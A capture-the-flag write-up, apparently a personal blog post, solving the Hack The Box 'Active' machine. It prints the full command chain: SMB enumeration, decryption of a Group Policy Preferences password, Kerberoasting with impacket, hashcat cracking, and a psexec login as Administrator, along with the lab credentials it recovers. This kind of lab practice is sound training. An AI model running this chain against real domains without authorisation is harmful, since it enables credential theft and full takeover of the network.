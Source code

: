 ```yaml
---
layout: post
title: My first writeup! Hack The Box, Active
tags: [Hack The Box, Active Directory, Bloodhound, Hashcat, GPP]
---
```

![logo](/boxes/htb/active/activeDirectory.PNG)

### i. Port Scan
![nmap portscan](/boxes/htb/active/nmap.PNG)
### ii. Enumeration
SMB ports were listed open on the nmap scan. Let's check if any shares are available with smbclient and smbmap.
```
smbclient -L 10.10.10.100
smbmap -H 10.10.10.100
```
smbclient:   
![smbclient](/boxes/htb/active/smbclient.PNG)

smbmap:  
![smbmap](/boxes/htb/active/smbmap.PNG)

Smbmap reveals a file share called Replication with read only permissions. Smbmap can be used to list the contents of the Replication directory:
```
smbmap -R Replication -H 10.10.10.100
```
Looking through the contents of the Replication directory there is a file called Groups.xml. This is a group policy file where local account information is typically stored for older Active Directory implementations.

![ReplicationFiles](/boxes/htb/active/groupsxml.PNG)

To download the file we use:
```
smbmap -R Replication -H 10.10.10.100 -A Groups.xml -q
```
Opening and reading the Groups.xml file, an account `SVC_TGS` and a encrypted password `edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH` was found. 

![groupsxmlhash](/boxes/htb/active/grouphash.PNG)


The password is encrypted with a known key:

https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be  
![msftknownkey](/boxes/htb/active/aes key.jpg)

To decrpyt the password, we use gpp-decrpyt:  

![gppdecrypt](/boxes/htb/active/gppdecrypt.PNG)

The decrypted hash is `GPPstillStandingStrong2k18`. Using the credentials we found we enumerate more shares.
```
smbmap -d active.htb -u svc_tgs -p GPPstillStandingStrong2k18 -H 10.10.10.100
```
![moreshares](/boxes/htb/active/moreshares.PNG)

Logging in and enumerating these shares led to the user flag under the `SVC_TGS\Desktop\` directory.

Now that we have credentials, let's use Bloodhound on the box. We switch to a Windows VM and run the following command:
```
runas /netonly /user:active.htb\svc_tgs cmd
```
Make sure to check your DNS settings on your network adapter and set it to 10.10.10.100. 

Run sharphound with the following command to gather information to use in Bloodhound:
```
sharphound.exe -c all -d active.htb --domaincontroller 10.10.10.100
```
A zip file should have been created with the information to import into Bloodhound. Drag and drop the zip file created by sharphound into the user interface of Bloodhound to import the information. Checking for domain admin did not reveal anything. Checking for kerberoasting, the user `ADMINISTRATOR` is available for this attack.

![kerberoasting](/boxes/htb/active/kerberoasting.PNG)

Using GetUserSPN.py from impacket we will grab the hash of `ADMINISTRATOR`
```
GetUserSPN.py -request -dc-ip 10.10.10.100 active.htb/svc_tgs
```
![adminhash](/boxes/htb/active/getUserSPN.PNG)

We copy the hash into a file and use hashcat to crack the hash with the wordlist rockyou via the following command:
```
hashcat -m 13100 hash.txt rockyou.txt 
```
![crackedhash](/boxes/htb/active/adminpw.PNG)

The Administrator password is: `Ticketmaster1968`

Now we can use psexec and log into the box and get the root flag.
```
psexec.py active.htb/Administrator@10.10.10.100
```
![rootflag](/boxes/htb/active/rootflag.PNG)

